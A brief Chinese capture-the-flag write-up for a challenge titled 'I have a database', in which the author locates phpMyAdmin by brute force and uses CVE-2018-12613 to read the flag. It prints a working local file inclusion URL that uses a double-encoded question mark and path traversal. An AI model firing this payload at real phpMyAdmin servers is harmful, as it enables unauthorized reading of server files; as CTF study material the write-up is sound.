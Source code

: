 # 我有一个数据库
没啥好说的，爆破出phpmyadmin（本来是想在phpinfo中提示的，但好像有点问题？）
然后问度娘poc，找到CVE-2018-12613可以用。
拿到POC直接打
`http://yourip:port/index.php?target=db_sql.php%253f/../../../../../../../../flag`